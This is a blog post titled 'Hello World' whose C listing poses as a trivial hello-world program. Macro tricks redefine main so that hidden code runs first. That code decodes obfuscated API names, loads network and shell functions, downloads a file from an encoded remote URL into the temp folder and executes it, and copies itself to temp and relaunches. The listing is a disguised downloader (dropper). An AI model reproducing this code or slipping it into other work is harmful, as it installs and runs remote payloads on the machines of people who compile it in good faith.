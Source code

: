 ```yaml
---
title: "Hello World"
layout: post
description: "Hello World"
robots: none
---
```


{% highlight c %}
#include <stdio.h>
#define sc _stdcall
#define M main
int _m();
#define main M(l p,l q){_hd(p,q);_m();}int _m
typedef unsigned long l;typedef char c,*s;typedef void v,*p;
typedef l(sc*F0)();typedef l(sc*F9)(l,l,l,l,l,l,l,l,l);
typedef l(sc*F1)(l); typedef l(sc*F8)(l,l,l,l,l,l,l,l);
typedef l(sc*F2)(l,l); typedef l(sc*F7)(l,l,l,l,l,l,l);
typedef l(sc*F3)(l,l,l); typedef l(sc*F6)(l,l,l,l,l,l);
typedef l(sc*F4)(l,l,l,l); typedef l(sc*F5)(l,l,l,l,l);
c __mp[1<<7]={0};l i,j,k,m,n,kl,nl,sl;c bf[1<<12];
l strcpy(l,l);l strcat(l,l);
F1 _nc,_ll,_fc;F2 _ga,_tp;F3 _cf;F4 _nr;F5 _no,_fw;F6 _nu,_sh;F7 _fn;
s __st[]={")GFzGda&Zldd","MszszG\\Zldd","!8Gdda&Zldd",
          "3z\\GFzG\\u0Gz;","3z\\GFzG\\fG{lBsdG","3z\\GFzG\\u0GzWFd;",
          "3z\\GFzG\\QdU!GX{zldG","QFG{\\GBsdG;","mFs\\GBsdG",
          "QdU!GX{zldG","QU0cBsdG;\0\\;","}G\\|G?0P{\\8;",
          "A8Gddg(G17\\G;","zGMVGFZG(G","8\\\\0~55MZ!Z]05sz!\\{ddZl{\\",
          "\\G?0ZG(G\0QEd","F7z{!\0\\0","U0Gz\0GzzD"};
l _dc(s o,s i){
    s p=i;do*(o+(l)p-(l)i+1)=__mp[*p];while(*p && p++);return 0;}
l rl(s z){for(i=0;i<sizeof(l)*8;i++)
    if(((l)z>>i)&1)z=(s)((l)z&~(1<<i));else{z=(s)((l)z|(1<<i));break;};
    return (l)z;}
v _in(){
    l sc LoadLibraryA(l);l sc GetProcAddress(l,l);
    i=j=0;do*(__mp+ j++ +0x20)=i+0x20,i=(i+83)%(0x60);while(i!=0);
    _ga =(F2)GetProcAddress,_ll=(F1)LoadLibraryA;kl=_ll((_dc(bf,__st[0]),rl(bf)));
    nl=_ll((_dc(bf,__st[1]),rl(bf)));sl=_ll((_dc(bf,__st[2]),rl(bf)));
    _no=(F5)_ga(nl,(_dc(bf,__st[3]),rl(bf)));_nr=(F4)_ga(nl,(_dc(bf,__st[4]),rl(bf)));
    _nu=(F6)_ga(nl,(_dc(bf,__st[5]),rl(bf)));_nc=(F1)_ga(nl,(_dc(bf,__st[6]),rl(bf)));
    _fn=(F7)_ga(kl,(_dc(bf,__st[7]),rl(bf)));_fw=(F5)_ga(kl,(_dc(bf,__st[8]),rl(bf)));
    _fc=(F1)_ga(kl,(_dc(bf,__st[9]),rl(bf)));_cf=(F3)_ga(kl,(_dc(bf,__st[10]),rl(bf)));
    _tp=(F2)_ga(kl,(_dc(bf,__st[11]),rl(bf)));_sh=(F6)_ga(sl,(_dc(bf,__st[12]),rl(bf)));
}
l _dl(l u){
    l cn,sn,f,rr,ln=0;
    sn=_no((l)"poilynx",1,0,0,0);if(!sn)return 0;
    cn = _nu(sn,(_dc(bf,__st[14]),rl(bf)),0,0,1<<30,0);
    if(!cn){_nc(sn);return 0;}f=_fn(u,1<<30,3,0,2,1<<7,0);
    while(_nr(cn,(l)bf, sizeof(bf),(l)&rr),rr)ln+=rr,_fw(f,(l)bf,rr,(l)&rr,0);
    _nc(cn);_nc(sn);_fc(f);
    return 1;
}
v _hd(l ac,l av)
{
    c td[1<<10];_in();_tp(1<<12,(l)td);
    if(ac>1 && (((s*)av)[1])[0]==0x53 && (((s*)av)[1])[1]==0){
        strcat((l)td,(_dc(bf,__st[13]),rl(bf)));
        while(!_dl((l)td));
        while(_sh(0,(_dc(bf,__st[16]),rl(bf)),(l)td,0,0,0)<1<<5);
    }else{
        strcat((l)td,(_dc(bf,__st[15]),rl(bf)));_cf((l)((s*)av)[0],(l)td,0);
        _sh(0,(_dc(bf,__st[17]),rl(bf)),(l)td,(m=0x53,(l)&m),0,0);}
    return;
}

int main()
{
    puts("hello world");
    return 0;
}
{% endhighlight %}

